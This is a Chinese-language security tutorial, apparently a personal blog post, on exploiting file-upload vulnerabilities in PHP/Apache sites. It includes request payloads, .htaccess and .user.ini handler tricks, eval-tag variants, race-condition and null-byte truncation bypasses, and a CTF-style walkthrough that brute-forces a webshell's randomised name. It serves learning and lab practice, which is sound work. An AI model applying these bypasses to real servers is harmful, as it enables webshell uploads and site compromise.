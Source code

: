 ```yaml
---
layout: post
title: File-Upload
subtitle: File-Upload
date: 2024-06-17 16:22
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: true
---
```

## 1. 文件上传漏洞介绍

几乎每个网站中都会有文件上传的功能，譬如上传头像、视频、压缩包等。网站上传功能点未对客户端上传的文件进行严格的限制和过滤，导致恶意用户将一些恶意的文件或脚本上传到服务器并 url 访问执行，进而达到控制网站的目的，这就是文件上传漏洞。

### 1.1. 文件上传漏洞前提

1. 能成功上传木马或脚本
2. 知道上传后的路径
3. 上传的木马或脚本能被执行
4. 图片马需要配合文件包含漏洞或文件解析漏洞使用

## 2. 文件上传漏洞利用

### 2.1. 前端绕过

上传.php.jpg 文件，bp 抓包修改后缀

```http
filename="shell.php"
Content-Type: image/jpeg

GIF89a
<?php phpinfo();?>
```

![image.png](https://img.ghostliner.top/BVGH0r.png)

### 2.2. 其他文件格式

一般 php可执行文件格式：`php` `php2` `php3` `php4` `php5` `phtml`

原理：apache `httpd.config` 文件配置

```
AddType application/x-httpd-php .php .phtml .php3
```

### 2.3. 配置文件利用

**条件：可以上传配置文件**

可利用 apache 配置文件 `.htaccess`

```
<FilesMatch "webshell">
Sethandler application/x-httpd-php
</FilesMatch>
# or
AddHandler application/x-httpd-php .xxx
```

**条件：上传目录存在 php 文件，且必须运行在 fastcgi 模式**

php 配置文件 `.user.ini`

```ini
auto_prepend_file = 123.txt
auto_append_file = 123.txt
```

当访问上传目录中的 php 文件时，自动加载 `123.txt`

### 2.4. 二次渲染

上传图片经二次渲染时，可通过010比较前后两个图片未修改部分，将代码插入其中

### 2.5. 标签绕过

```php
<script language="php">eval();</script>
```

```php
<?=eval();?>
```

### 2.6. 条件竞争

上传 `shell.php` 内容：

```php
<?php fputs(fopen('php.php','w'),'<?php phpinfo();?>');?>
```

bp 循环上传、访问 `shell.php`

### 2.7. 截断绕过

%00 截断（要求 php 版本小于 5.3.4，php 的 magic_quotes_gpc 为 OFF 状态）

#### 2.7.1. get 截断

![image.png](https://img.ghostliner.top/yKCXlN.png)

#### 2.7.2. post 截断

将 `%00` 进行 url 转码，请求体内容不会自动转码

![image.png](https://img.ghostliner.top/Uxyrhj.png)

#### 2.7.3. 数组截断

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

分析代码：

`$file[count($file) - 1]`，正常情况是获取$file 数组最后一个下标数据，`count()` 函数在统计数组个数时只统计所有已定义元素，当 `save_name[1]` 未定义时，返回值为 2.

构造 payload

![image.png](https://img.ghostliner.top/8KeRaf.png)

### 2.8. 其他绕过方式

大写 `.PHP`、双写 `.pphphp` 、末尾加点，末尾加空格 `.php.` `.php. .` 、`.php::$data`

## 3. 例题

代码提示：

![image.png](https://img.ghostliner.top/VxNkxg.png)

```php
$files = @$_FILES["files"]
# 获取文件全名
$file_name = $files["name"]
# 获取文件后缀
$file_ext = substr($file_name,strrpos($file_name,".")+1)
# 生成新文件名
# md5(文件名随机数).后缀
md5($file_name.rand(1,99999)).".".
```

上传一句话木马 `shell.php`，使用 bp 爆破

设置 payload

![image.png](https://img.ghostliner.top/LTYLMa.png)

设置随机数 1-99999

![image.png](https://img.ghostliner.top/ie02HT.png)

设置前缀：shell.php，
设置进行 MD5 加密

![image.png](https://img.ghostliner.top/C1HCkb.png)

开始攻击，过滤状态码

![image.png](https://img.ghostliner.top/VALax3.png)

得到结果：`a4bb0a293d789ae48fecb913b1348e2f.php`

![image.png](https://img.ghostliner.top/Eiltrx.png)
